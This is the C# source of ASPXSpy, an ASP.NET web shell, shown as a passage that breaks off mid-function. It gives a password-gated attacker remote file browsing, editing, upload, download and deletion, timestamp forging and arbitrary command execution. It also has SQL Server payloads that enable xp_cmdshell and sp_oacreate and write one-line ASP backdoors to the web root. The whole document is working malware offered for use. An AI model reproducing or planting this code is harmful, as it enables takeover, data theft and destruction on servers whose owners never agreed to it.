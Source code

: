 # Glab
<%@ Page Language="C#" Debug="true" trace="false" validateRequest="false"	%>
<%@ import Namespace="System.IO" %>
<%@ import Namespace="System.Diagnostics" %>
<%@ import Namespace="System.Data" %>
<%@ import Namespace="System.Data.OleDb" %>
<%@ import Namespace="Microsoft.Win32" %>
<%@ import Namespace="System.Net.Sockets" %>
<%@ Assembly Name="System.DirectoryServices, Version=2.0.0.0, Culture=neutral, PublicKeyToken=B03F5F7F11D50A3A" %>
<%@ import Namespace="System.DirectoryServices" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<script runat="server">
    /*
Thanks Snailsor,FuYu,BloodSword

Code by Bin

Make in China

Blog: http://www.rootkit.net.cn

E-mail : master@rootkit.net.cn
*/
    public string Password="21232f297a57a5a743894a0e4a801fc3";
	public string SessionName="ASPXSpy";
	public string cookiePass="ASPXSpyCookiePass";
	public string Bin_Action="";
	public string Bin_Request="";
	protected OleDbConnection conn=new OleDbConnection();
	protected OleDbCommand comm=new OleDbCommand();

	protected void Page_Load(object sender, EventArgs e)
	{
		//string strkey;
		bool isCookied=false;
		HttpCookieCollection cookiecoll=Request.Cookies;
		foreach (string strkey in cookiecoll.AllKeys)
		{
			if (strkey==cookiePass)
			{
				if (cookiecoll[strkey].Value==Password)
				{
					isCookied=true;
				}
				break;
			}
		}
		if((Session[SessionName] !="BIN")&&(!isCookied))
		{
			Bin_login();
		}
		else
		{
			if(!IsPostBack)
			{
				Bin_main();
			}
			else
			{

					Bin_Action=Request["goaction"];
				if(Bin_Action=="del")
				{
					Bin_Request=Request["todo"];
					Bin_Filedel(Bin_Request, 1);
				}
				if(Bin_Action=="change")
				{
					Bin_Request=Request["todo"];
					Bin_FileList(Bin_Request);
				}
				if(Bin_Action=="deldir")
				{
					Bin_Request=Request["todo"];
					Bin_Filedel(Bin_Request, 2);
				}
				if(Bin_Action=="down")
				{
					Bin_Request=Request["todo"];
					Bin_Filedown(Bin_Request);
				}
				if(Bin_Action=="rename")
				{
					Bin_Request=Request["todo"];
					Bin_FileRN(Bin_Request, 1);
				}
				if(Bin_Action=="renamedir")
				{
					Bin_Re·quest=Request["todo"];
					Bin_FileRN(Bin_Request, 2);
				}
				if(Bin_Action=="showatt")
				{
					Bin_Request=Request["todo"];
					Bin_Fileatt(Bin_Request);
				}
				if(Bin_Action=="edit")
				{
					Bin_Request=Request["todo"];
					Bin_FileEdit(Bin_Request);
				}
				if(Bin_Action=="postdata")
				{

					Bin_Request=Request["todo"];
					Session["Bin_Table"]=Bin_Request;
					Bin_DataGrid.CurrentPageIndex=0;
					Bin_DBstrTextBox.Text="";
					Bin_Databind();
				}
				if(Bin_Action=="changedata")
				{
					Session["Bin_Table"]=null;
					Bin_Request=Request["todo"];
					Session["Bin_Option"]=Request["intext"];
					Bin_Change();
					Bin_DBinfoLabel.Visible=false;
					Bin_DBstrTextBox.Text=Bin_Request;

				}
				if(Session["Bin_Table"] !=null)
				{
					Bin_Databind();
				}

			}
		}
	}
	public void Bin_login()
	{
		Bin_LoginPanel.Visible=true;
		Bin_MainPanel.Visible=false;
		Bin_MenuPanel.Visible=false;
		Bin_FilePanel.Visible=false;
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		Bin_PortPanel.Visible=false;
		Bin_RegPanel.Visible=false;
	}
	public void Bin_main()
	{
		TimeLabel.Text=DateTime.Now.ToString();
		Bin_PortPanel.Visible=false;
		Bin_RegPanel.Visible=false;
		Bin_LoginPanel.Visible=false;
		Bin_MainPanel.Visible=true;
		Bin_MenuPanel.Visible=true;
		Bin_FilePanel.Visible=false;
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		string ServerIP="Server IP : "+Request.ServerVariables["LOCAL_ADDR"]+"<br>";
		string HostName="HostName : "+Environment.MachineName+"<br>";
		string OS="OS Version : "+Environment.OSVersion+"</br>";
		string IISversion="IIS Version : "+Request.ServerVariables["SERVER_SOFTWARE"]+"<br>";
		string PATH_INFO="PATH_TRANSLATED : "+Request.ServerVariables["PATH_TRANSLATED"]+"<br>";
		InfoLabel.Text="<hr><center><b><U>SYS-INFO</U></B></center>";
		InfoLabel.Text+=ServerIP+HostName+OS+IISversion+PATH_INFO+"<hr>";
		InfoLabel.Text+=Bin_Process()+"<hr>";

	}
	private bool CheckIsNumber(string sSrc)
	{
		System.Text.RegularExpressions.Regex reg=new System.Text.RegularExpressions.Regex(@"^0|[0-9]*[1-9][0-9]*$");

		if(reg.IsMatch(sSrc))
		{
			return true;
		}
		else
		{
			return false;
		}
	}
	public string Bin_iisinfo()
	{
		string iisinfo="";
		string iisstart="";
		string iisend="";
		string iisstr="IIS://localhost/W3SVC";
		int i=0;
		try
		{
			DirectoryEntry mydir=new DirectoryEntry(iisstr);
			iisstart="<input type=hidden name=goaction><input type=hidden name=todo><TABLE width=100% align=center border=0><TR align=center><TD width=6%><B>Order</B></TD><TD width=20%><B>IIS_USER</B></TD><TD width=25%><B>Domain</B></TD><TD width=30%><B>Path</B></TD></TR>";
			foreach(DirectoryEntry child in mydir.Children)
			{
				if(CheckIsNumber(child.Name.ToString()))
				{
					string dirstr=child.Name.ToString();
					string tmpstr="";
					DirectoryEntry newdir=new DirectoryEntry(iisstr+"/"+dirstr);
					DirectoryEntry newdir1=newdir.Children.Find("root", "IIsWebVirtualDir");
					iisinfo+="<TR><TD align=center>"+(i=i+1)+"</TD>";
					iisinfo+="<TD align=center>"+newdir1.Properties["AnonymousUserName"].Value+"</TD>";
					iisinfo+="<TD>"+child.Properties["ServerBindings"][0]+"</TD>";
					iisinfo+="<TD><a href=javascript:Command('change','"+formatpath(newdir1.Properties["Path"].Value.ToString())+"');>"+newdir1.Properties["Path"].Value+"</a></TD>";
					iisinfo+="</TR>";
				}
			}
			iisend="</TABLE><hr>";
		}
		catch(Exception error)
		{
			Bin_Error(error.Message);
		}
			return iisstart+iisinfo+iisend;
	}
	public string Bin_Process()
	{
		string htmlstr="<center><b><U>PROCESS-INFO</U></B></center><TABLE width=80% align=center border=0><TR align=center><TD width=20%><B>ID</B></TD><TD align=left width=20%><B>Process</B></TD><TD align=left width=20%><B>MemorySize</B></TD><TD align=center width=10%><B>Threads</B></TD></TR>";
			string prostr="";
			string htmlend="</TR></TABLE>";
			try
			{
				Process[] myprocess=Process.GetProcesses();
				foreach(Process p in myprocess)
				{
					prostr+="<TR><TD align=center>"+p.Id.ToString()+"</TD>";
					prostr+="<TD align=left>"+p.ProcessName.ToString()+"</TD>";
					prostr+="<TD align=left>"+p.WorkingSet.ToString()+"</TD>";
					prostr+="<TD align=center>"+p.Threads.Count.ToString()+"</TD>";
				}
			}
			catch(Exception Error)
			{
				Bin_Error(Error.Message);
			}
		return htmlstr+prostr+htmlend;
	}
	protected void LoginButton_Click(object sender, EventArgs e)
	{
		string MD5Pass=FormsAuthentication.HashPasswordForStoringInConfigFile(passtext.Text,"MD5").ToLower();
		if(MD5Pass==Password)
		{
			Session[SessionName]="BIN";
			Response.Cookies.Add(new HttpCookie(cookiePass,Password));
			Bin_main();
		}
		else
		{
			Bin_login();
		}
	}

	protected void LogoutButton_Click(object sender, EventArgs e)
	{
		Session.Abandon();
		Response.Cookies.Add(new HttpCookie(cookiePass,null));
		Bin_login();
	}

	protected void FileButton_Click(object sender, EventArgs e)
	{
		Bin_LoginPanel.Visible=false;
		Bin_MenuPanel.Visible=true;
		Bin_MainPanel.Visible=false;
		Bin_FilePanel.Visible=true;
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		Bin_PortPanel.Visible=false;
		Bin_RegPanel.Visible=false;
		Bin_upTextBox.Text=formatpath(Server.MapPath("."));
		Bin_CopyTextBox.Text=formatpath(Server.MapPath("."));
		Bin_upTextBox.Text=formatpath(Server.MapPath("."));
		Bin_FileList(Server.MapPath("."));

	}

	protected void MainButton_Click(object sender, EventArgs e)
	{
		Bin_main();
	}
	public void Bin_DriveList()
	{
		string file="<input type=hidden name=goaction><input type=hidden name=todo>";
		file+="<hr>Drives : ";
		string[] drivers=Directory.GetLogicalDrives();
		for(int i=0; i < drivers.Length; i++)
		{
			file+="<a href=javascript:Command('change','"+formatpath(drivers[i])+"');>"+drivers[i]+"</a>&nbsp;";
		}
		file+="	WebRoot :	<a href=javascript:Command('change','"+formatpath(Server.MapPath("."))+"');>"+Server.MapPath(".")+"</a>";
		Bin_FileLabel.Text=file;
	}

	public void Bin_FileList(string Bin_path)
	{
		Bin_FilePanel.Visible=true;
		Bin_CreateTextBox.Text="";
		Bin_CopytoTextBox.Text="";
		Bin_CopyTextBox.Text=Bin_path;
		Bin_upTextBox.Text=Bin_path;
		Bin_IISPanel.Visible=false;
		Bin_DriveList();
		string tmpstr="";
		string Bin_Filelist=Bin_FilelistLabel.Text;
		Bin_Filelist="<hr>";
		Bin_Filelist+="<table width=90% border=0 align=center>";
		Bin_Filelist+="<tr><td width=40%><b>Name</b></td><td width=15%><b>Size(Byte)</b></td>";
		Bin_Filelist+="<td width=25%><b>ModifyTime</b></td><td width=25%><b>Operate</b></td></tr>";
		try
		{
			Bin_Filelist+="<tr><td>";
			string parstr="";
			if(Bin_path.Length < 4)
			{
				parstr=formatpath(Bin_path);

			}
			else
			{
				parstr=	formatpath(Directory.GetParent(Bin_path).ToString());

			}
			Bin_Filelist+="<i><b><a href=javascript:Command('change','"+parstr+"');>|Parent Directory|</a></b></i>";
			Bin_Filelist+="</td></tr>";

			DirectoryInfo Bin_dir=new DirectoryInfo(Bin_path);
			foreach(DirectoryInfo Bin_folder in Bin_dir.GetDirectories())
			{
				string foldername=formatpath(Bin_path)+"/"+formatfile(Bin_folder.Name);
				tmpstr+="<tr>";
				tmpstr+="<td><a href=javascript:Command('change','"+foldername+"')>"+Bin_folder.Name+"</a></td><td><b><i>&lt;dir&gt;</i></b></td><td>"+Directory.GetLastWriteTime(Bin_path+"/"+Bin_folder.Name)+"</td><td><a href=javascript:Command('renamedir','"+foldername+"');>Ren</a>|<a href=javascript:Command('showatt','"+foldername+"/');>Att</a>|<a href=javascript:Command('deldir','"+foldername+"');>Del</a></td>";
				tmpstr+="</tr>";
			}
			foreach(FileInfo Bin_file in Bin_dir.GetFiles())
			{
				string filename=formatpath(Bin_path)+"/"+formatfile(Bin_file.Name);
				tmpstr+="<tr>";
				tmpstr+="<td>"+Bin_file.Name+"</td><td>"+Bin_file.Length+"</td><td>"+Directory.GetLastWriteTime(Bin_path+"/"+Bin_file.Name)+"</td><td><a href=javascript:Command('edit','"+filename+"');>Edit</a>|<a href=javascript:Command('rename','"+filename+"');>Ren</a>|<a href=javascript:Command('down','"+filename+"');>Down</a>|<a href=javascript:Command('showatt','"+filename+"');>Att</a>|<a href=javascript:Command('del','"+filename+"');>Del</a></td>";
				tmpstr+="</tr>";
			}
			tmpstr+="</talbe>";
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);

		}

		Bin_FilelistLabel.Text=Bin_Filelist+tmpstr;
	}
	public void Bin_Filedel(string instr,int type)
	{
		try
		{
			if(type==1)
			{
				File.Delete(instr);
			}
			if(type==2)
			{
				foreach(string tmp in Directory.GetFileSystemEntries(instr))
				{
					if(File.Exists(tmp))
					{
						File.Delete(tmp);
					}
					else
					{
						Bin_Filedel(tmp, 2);
					}
				}
				Directory.Delete(instr);
			}
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_FileList(Bin_upTextBox.Text);
	}
	public void Bin_FileRN(string instr,int type)
	{
		try
		{
			if(type==1)
			{
				string[] array=instr.Split(',');

				File.Move(array[0], array[1]);
			}
			if(type==2)
			{
				string[] array=instr.Split(',');
				Directory.Move(array[0], array[1]);
			}
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_FileList(Bin_upTextBox.Text);
	}
	public void Bin_Filedown(string instr)
	{
		try
		{
			FileStream MyFileStream=new FileStream(instr, FileMode.Open, FileAccess.Read, FileShare.Read);
			long FileSize=MyFileStream.Length;
			byte[] Buffer=new byte[(int)FileSize];
			MyFileStream.Read(Buffer, 0,(int)FileSize);
			MyFileStream.Close();
			Response.AddHeader("Content-Disposition", "attachment;filename="+instr);
			Response.Charset="UTF-8";
			Response.ContentType="application/octet-stream";
			Response.BinaryWrite(Buffer);
			Response.Flush();
			Response.End();
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}

	}
	public void Bin_Fileatt(string instr)
	{
		Bin_AttPanel.Visible=true;
		Bin_FilePanel.Visible=true;
		try
		{
			string Att=File.GetAttributes(instr).ToString();
			Bin_ReadOnlyCheckBox.Checked=false;
			Bin_SystemCheckBox.Checked=false;
			Bin_HiddenCheckBox.Checked=false;
			Bin_ArchiveCheckBox.Checked=false;

			if(Att.LastIndexOf("ReadOnly")!=-1)
			{
				Bin_ReadOnlyCheckBox.Checked=true;
			}
			if(Att.LastIndexOf("System")!=-1)
			{
				Bin_SystemCheckBox.Checked=true;
			}
			if(Att.LastIndexOf("Hidden")!=-1)
			{
				Bin_HiddenCheckBox.Checked=true;
			}
			if(Att.LastIndexOf("Archive")!=-1)
			{
				Bin_ArchiveCheckBox.Checked=true;
			}
			Bin_CreationTimeTextBox.Text=File.GetCreationTime(instr).ToString();
			Bin_LastWriteTimeTextBox.Text=File.GetLastWriteTime(instr).ToString();
			Bin_AccessTimeTextBox.Text=File.GetLastAccessTime(instr).ToString();
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_AttLabel.Text=instr;
		Session["FileName"]=instr;
		Bin_DriveList();
	}
	public void Bin_FileEdit(string instr)
	{
		Bin_FilePanel.Visible=true;
		Bin_EditPanel.Visible=true;
		Bin_DriveList();
		Bin_EditpathTextBox.Text=instr;
		StreamReader SR=new StreamReader(instr, Encoding.Default);
		Bin_EditTextBox.Text=SR.ReadToEnd();
		SR.Close();
	}
	protected void Bin_upButton_Click(object sender, EventArgs e)
	{

			string uppath=Bin_upTextBox.Text;
			if(uppath.Substring(uppath.Length - 1, 1)!=@"/")
			{
				uppath=uppath+@"/";
			}
			try
			{
				Bin_UpFile.PostedFile.SaveAs(uppath+Path.GetFileName(Bin_UpFile.Value));

			}
			catch(Exception error)
			{
				Bin_Error(error.Message);
			}
			Bin_FileList(uppath);
	}
	public void Bin_Error(string error)
	{
		Bin_ErrorLabel.Text="Error : "+error;
	}
	public string formatpath(string instr)
	{
		instr=instr.Replace(@"\", "/");
		if(instr.Length < 4)
		{
			instr=instr.Replace(@"/", "");
		}
		if(instr.Length==2)
		{
			instr=instr+@"/";
		}
		instr=instr.Replace(" ", "%20");
		return instr;
	}
	public string formatfile(string instr)
	{
		instr=instr.Replace(" ", "%20");
		return instr;

	}
	protected void Bin_GoButton_Click(object sender, EventArgs e)
	{
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_NewFileButton_Click(object sender, EventArgs e)
	{
		string newfile=Bin_CreateTextBox.Text;
		string filepath=Bin_upTextBox.Text;
		filepath=filepath+"/"+newfile;
		try
		{
			StreamWriter sw=new StreamWriter(filepath, true, Encoding.Default);

		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_NewdirButton_Click(object sender, EventArgs e)
	{
		string dirpath=Bin_upTextBox.Text;
		string newdir=Bin_CreateTextBox.Text;
		newdir=dirpath+"/"+newdir;
		try
		{
			Directory.CreateDirectory(newdir);

		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_CopyButton_Click(object sender, EventArgs e)
	{
		string copystr=Bin_CopyTextBox.Text;
		string copyto=Bin_CopytoTextBox.Text;
		try
		{
			File.Copy(copystr, copyto);
		}
		catch(Exception Error)
		{
			 Bin_Error(Error.Message);
		}
		Bin_CopytoTextBox.Text="";
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_CutButton_Click(object sender, EventArgs e)
	{
		string copystr=Bin_CopyTextBox.Text;
		string copyto=Bin_CopytoTextBox.Text;
		try
		{
			File.Move(copystr, copyto);
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_CopytoTextBox.Text="";
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_SetButton_Click(object sender, EventArgs e)
	{
		try
		{
			string FileName=Session["FileName"].ToString();
			File.SetAttributes(FileName, FileAttributes.Normal);
			if(Bin_ReadOnlyCheckBox.Checked)
			{
				File.SetAttributes(FileName, FileAttributes.ReadOnly);
			}

			if(Bin_SystemCheckBox.Checked)
			{
				File.SetAttributes(FileName, File.GetAttributes(FileName)| FileAttributes.System);
			}
			if(Bin_HiddenCheckBox.Checked)
			{
				File.SetAttributes(FileName, File.GetAttributes(FileName)| FileAttributes.Hidden);
			}
			if(Bin_ArchiveCheckBox.Checked)
			{
				File.SetAttributes(FileName, File.GetAttributes(FileName)| FileAttributes.Archive);
			}
			if(FileName.Substring(FileName.Length - 1, 1)=="/")
			{
				Directory.SetCreationTime(FileName, Convert.ToDateTime(Bin_CreationTimeTextBox.Text));
				Directory.SetLastWriteTime(FileName, Convert.ToDateTime(Bin_LastWriteTimeTextBox.Text));
				Directory.SetLastAccessTime(FileName, Convert.ToDateTime(Bin_AccessTimeTextBox.Text));
			}
			else
			{
				File.SetCreationTime(FileName, Convert.ToDateTime(Bin_CreationTimeTextBox.Text));
				File.SetLastWriteTime(FileName, Convert.ToDateTime(Bin_LastWriteTimeTextBox.Text));
				File.SetLastAccessTime(FileName, Convert.ToDateTime(Bin_AccessTimeTextBox.Text));
			}
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_FileList(Bin_upTextBox.Text);
		Response.Write("<script>alert('Success!')</sc"+"ript>");
	}

	protected void Bin_EditButton_Click(object sender, EventArgs e)
	{
		try
		{
			StreamWriter SW=new StreamWriter(Bin_EditpathTextBox.Text, false, Encoding.Default);
			SW.Write(Bin_EditTextBox.Text);
			SW.Close();
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
		Bin_FileList(Bin_upTextBox.Text);
		Response.Write("<script>alert('Success!')</sc"+"ript>");

	}

	protected void Bin_BackButton_Click(object sender, EventArgs e)
	{
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_SbackButton_Click(object sender, EventArgs e)
	{
		Bin_FileList(Bin_upTextBox.Text);
	}

	protected void Bin_CmdButton_Click(object sender, EventArgs e)
	{
		Bin_MenuPanel.Visible=true;
		Bin_LoginPanel.Visible=false;
		Bin_CmdPanel.Visible=true;
		Bin_SQLPanel.Visible=false;
		Bin_CmdLabel.Text="";
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		Bin_RegPanel.Visible=false;
		Bin_PortPanel.Visible=false;
	}

	protected void Bin_RunButton_Click(object sender, EventArgs e)
	{
		try
		{
			Process Cmdpro=new Process();
			Cmdpro.StartInfo.FileName=Bin_CmdPathTextBox.Text;
			Cmdpro.StartInfo.Arguments=Bin_CmdShellTextBox.Text;
			Cmdpro.StartInfo.UseShellExecute=false;
			Cmdpro.StartInfo.RedirectStandardInput=true;
			Cmdpro.StartInfo.RedirectStandardOutput=true;
			Cmdpro.StartInfo.RedirectStandardError=true;
			Cmdpro.Start();
			string cmdstr=Cmdpro.StandardOutput.ReadToEnd();
			cmdstr=cmdstr.Replace("<", "&lt;");
			cmdstr=cmdstr.Replace(">", "&gt;");
			Bin_CmdLabel.Text="<hr><div id=\"cmd\"><pre>"+cmdstr+"</pre></div>";
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
	}

	protected void Bin_SQLButton_Click(object sender, EventArgs e)
	{
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=true;
		Bin_LoginPanel.Visible=false;
		Bin_MenuPanel.Visible=true;
		Bin_AccPanel.Visible=false;
		Bin_Scroll.Visible=false;
		Bin_DBmenuPanel.Visible=false;
		Bin_dirPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		Bin_PortPanel.Visible=false;
		Bin_RegPanel.Visible=false;
	}

	protected void Bin_SQLRadioButton_CheckedChanged(object sender, EventArgs e)
	{
		Session["Bin_Table"]=null;
		Bin_SQLconnTextBox.Text="server=localhost;UID=sa;PWD=;database=master;Provider=SQLOLEDB";
		Bin_SQLRadioButton.Checked=true;
		Bin_AccRadioButton.Checked=false;
		Bin_AccPanel.Visible=false;
		Bin_DataGrid.Visible=false;
		Bin_Scroll.Visible=false;
		Bin_DBmenuPanel.Visible=false;
		Bin_dirPanel.Visible=false;
	}

	protected void Bin_AccRadioButton_CheckedChanged(object sender, EventArgs e)
	{
		Session["Bin_Table"]=null;
		Bin_SQLconnTextBox.Text=@"Provider=Microsoft.Jet.OLEDB.4.0;Data Source=E:\wwwroot\database.mdb";
		Bin_SQLRadioButton.Checked=false;
		Bin_AccRadioButton.Checked=true;
		Bin_DBmenuPanel.Visible=false;
		Bin_AccPanel.Visible=false;
		Bin_DataGrid.Visible=false;
		Bin_Scroll.Visible=false;
		Bin_dirPanel.Visible=false;

	}
	protected void OpenConnection()
	{
		if(conn.State==ConnectionState.Closed)
		{
			try
			{
				conn.ConnectionString=Bin_SQLconnTextBox.Text;
				comm.Connection=conn;
				conn.Open();
			}
			catch(Exception Error)
			{
				Bin_Error(Error.Message);
			}
		}
	}
	protected void CloseConnection()
	{
		if(conn.State==ConnectionState.Open)
			conn.Close();
			conn.Dispose();
			comm.Dispose();
	}
	public DataTable Bin_DataTable(string sqlstr)
	{
		OleDbDataAdapter da=new OleDbDataAdapter();
		DataTable datatable=new DataTable();
		try
		{
			OpenConnection();
			comm.CommandType=CommandType.Text;
			comm.CommandText=sqlstr;
			da.SelectCommand=comm;
			da.Fill(datatable);
		}
		catch(Exception)
		{
		}
		finally
		{
			CloseConnection();
		}
		return datatable;
	}
	protected void SQL_SumbitButton_Click(object sender, EventArgs e)
	{
		try
		{
			Session["Bin_Table"]=null;
			Bin_DataGrid.CurrentPageIndex=0;
			Bin_DataGrid.AllowPaging=true;
			if(Bin_SQLRadioButton.Checked)
			{
				Bin_DBmenuPanel.Visible=true;
				Bin_DBinfoLabel.Visible=true;
				Bin_AccPanel.Visible=false;
				Bin_Scroll.Visible=false;
				Bin_dirPanel.Visible=false;
				OpenConnection();
				DataTable ver=Bin_DataTable(@"SELECT @@VERSION");
				DataTable dbs=Bin_DataTable(@"SELECT name FROM master.dbo.sysdatabases");
				DataTable cdb=Bin_DataTable(@"SELECT DB_NAME()");
				DataTable rol=Bin_DataTable(@"SELECT IS_SRVROLEMEMBER('sysadmin')");
				DataTable owner=Bin_DataTable(@"SELECT IS_MEMBER('db_owner')");
				string dbo="";
				if(owner.Rows[0][0].ToString()=="1")
				{
					dbo="db_owner";
				}
				else
				{
					dbo="public";
				}
				if(rol.Rows[0][0].ToString()=="1")
				{
					dbo="<font color=blue>sa</font>";
				}
				string db_info="";
				db_info="<i><b><font color=red>SQLversion</font> : </b></i>"+ver.Rows[0][0].ToString()+"<br><hr>";
				string db_name="";
				for(int i=0; i < dbs.Rows.Count; i++)
				{
					db_name+=dbs.Rows[i][0].ToString().Replace(cdb.Rows[0][0].ToString(), "<font color=blue>"+cdb.Rows[0][0].ToString()+"</font>")+"&nbsp;|&nbsp;";
				}
				db_info+="<i><b><font color=red>DataBase</font> : </b></i><div style=\"width:760px;word-break:break-all\">"+db_name+"<br><div><hr>";
				db_info+="<i><b><font color=red>SRVROLEMEMBER</font></i></b> : "+dbo+"<hr>";
				Bin_DBinfoLabel.Text=db_info;
			}
			if(Bin_AccRadioButton.Checked)
			{
				Bin_DataGrid.Visible=false;
				Bin_SAexecButton.Visible=false;
				Bin_Accbind();
			}
		}
		catch(Exception E)
		{
			Bin_Error(E.Message);
		}
	}
	protected void Bin_Accbind()
	{
		try
		{
			Bin_DBmenuPanel.Visible=false;
			Bin_AccPanel.Visible=true;
			OpenConnection();
			DataTable acctable=new DataTable();
			acctable=conn.GetOleDbSchemaTable(OleDbSchemaGuid.Tables, new Object[] { null, null, null, "Table" });
			string accstr="<input type=hidden name=goaction><input type=hidden name=todo>";
			accstr+="Tables Count : "+acctable.Rows.Count+"<br>Please select a database : <SELECT onchange=if(this.value!='')Command('postdata',this);>";
			for(int i=0; i < acctable.Rows.Count; i++)
			{
				accstr+="<option value="+acctable.Rows[i].ItemArray[2].ToString()+">"+acctable.Rows[i].ItemArray[2].ToString()+"</option>";
			}
			if(Session["Bin_Table"] !=null)
			{
				accstr+="<option SELECTED>"+Session["Bin_Table"]+"</option>";
			}
			accstr+="</SELECT>";
			Bin_AccinfoLabel.Text=accstr;
			CloseConnection();
		}
		catch(Exception Error)
		{
			Bin_Error(Error.Message);
		}
	}
	protected void Bin_Databind()
	{
		try
		{
			Bin_SAexecButton.Visible=false;
			Bin_Accbind();
			Bin_Scroll.Visible=true;
			if(Bin_SQLRadioButton.Checked)
			{
				Bin_DBmenuPanel.Visible=true;
				Bin_DBinfoLabel.Visible=false;
			}
			Bin_DataGrid.Visible=true;
			DataTable databind=Bin_DataTable(@"SELECT * FROM "+Session["Bin_Table"]);
			Bin_DataGrid.DataSource=databind;
			Bin_DataGrid.DataBind();
		}
		catch(Exception Error)
		{

			Bin_Error(Error.Message);
		}
	}

	public void Bin_ExecSql(string instr)
	{
		try
		{
			OpenConnection();
			comm.CommandType=CommandType.Text;
			comm.CommandText=instr;
			comm.ExecuteNonQuery();
		}
		catch(Exception e)
		{
			Bin_Error(e.Message);
		}
	}
	public void Item_DataBound(object sender,DataGridItemEventArgs e)
	{

		for(int i=2; i < e.Item.Cells.Count; i++)
		{
			e.Item.Cells[i].Text=e.Item.Cells[i].Text.Replace("<", "&lt;").Replace(">", "&gt;");
		}

	}
	 protected void Bin_DBPage(object sender, DataGridPageChangedEventArgs e)
	{
		Bin_DataGrid.CurrentPageIndex=e.NewPageIndex;
		Bin_Databind();
	}
	public void Item_Command(object sender, DataGridCommandEventArgs e)
	{
		if(e.CommandName=="Cancel")
		{
			Bin_DataGrid.EditItemIndex=-1;
			Bin_Databind();
		}
	}

	protected void Bin_ExecButton_Click(object sender, EventArgs e)
	{
		try
		{

			Bin_Scroll.Visible=true;
			Bin_DataGrid.Visible=true;
			Bin_DataGrid.AllowPaging=true;
			Bin_Accbind();
			if(Bin_SQLRadioButton.Checked)
			{
				Bin_DBmenuPanel.Visible=true;
			}
			string sqlstr=Bin_DBstrTextBox.Text;
			sqlstr=sqlstr.TrimStart().ToLower();
			if(sqlstr.Substring(0, 6)=="select")
			{
				DataTable databind=Bin_DataTable(sqlstr);
				Bin_DataGrid.DataSource=databind;
				Bin_DataGrid.DataBind();
			}
			else
			{
				Bin_ExecSql(sqlstr);
				Bin_Databind();
			}
		}
		catch(Exception error)
		{
			Bin_Error(error.Message);
		}
	}

	protected void Bin_BDButton_Click(object sender, EventArgs e)
	{
		Bin_DBinfoLabel.Visible=false;
		Bin_Accbind();
		Bin_DBmenuPanel.Visible=true;
		Bin_DataGrid.Visible=false;
		Bin_DataGrid.AllowPaging=true;
		Bin_Scroll.Visible=false;
		Bin_DBstrTextBox.Text="";
		Bin_SAexecButton.Visible=false;
		Bin_ResLabel.Visible=false;
		Bin_dirPanel.Visible=false;

	}

	protected void Bin_SACMDButton_Click(object sender, EventArgs e)
	{
		Bin_DBinfoLabel.Visible=false;
		Bin_DataGrid.Visible=false;
		Bin_Scroll.Visible=false;
		Bin_SAexecButton.Visible=true;
		Bin_Change();
		Bin_ExecButton.Visible=false;
		Bin_ResLabel.Visible=false;
		Session["Bin_Option"]=null;
		Bin_dirPanel.Visible=false;

	}
	public void Bin_Change()
	{
		Bin_ExecButton.Visible=false;
		string select="<input type=hidden name=goaction><input type=hidden name=todo><input type=hidden name=intext><select onchange=if(this.value!='')Command('changedata',this);><option>SQL Server Exec<option value=\"Use master dbcc addextendedproc('sp_OACreate','odsole70.dll')\">Add sp_oacreate<option value=\"Use master dbcc addextendedproc('xp_cmdshell','xplog70.dll')\">Add xp_cmdshell<option value=\"Exec master.dbo.xp_cmdshell 'net user'\">Add xp_cmdshell<option value=\"EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;\">Add xp_cmdshell(SQL2005)<option value=\"Exec master.dbo.xp_cmdshell 'net user'\">XP_cmdshell exec<option value=\"Declare @s	int;exec sp_oacreate 'wscript.shell',@s out;Exec SP_OAMethod @s,'run',NULL,'cmd.exe /c echo ^&lt;%execute(request(char(35)))%^> > c:\\1.asp';\">SP_oamethod exec<option value=\"sp_makewebtask @outputfile='d:\\web\\bin.asp',@charset=gb2312,@query='select ''<%execute(request(chr(35)))"+"%"+">''' \">SP_makewebtask make file";
		if(Session["Bin_Option"] !=null)
		{
			select+="<option SELECTED>"+Session["Bin_Option"]+"</option>";
		}
		select+="</select>";
		Bin_AccinfoLabel.Text=select;
		Bin_DataGrid.Visible=false;
		Bin_Scroll.Visible=false;
	}

	protected void Bin_SAexecButton_Click(object sender, EventArgs e)
	{
		try
		{
			Bin_Change();
			Bin_DBinfoLabel.Visible=false;
			Bin_ExecButton.Visible=false;
			Bin_Scroll.Visible=false;
			Bin_DataGrid.Visible=false;
			Bin_DBmenuPanel.Visible=true;
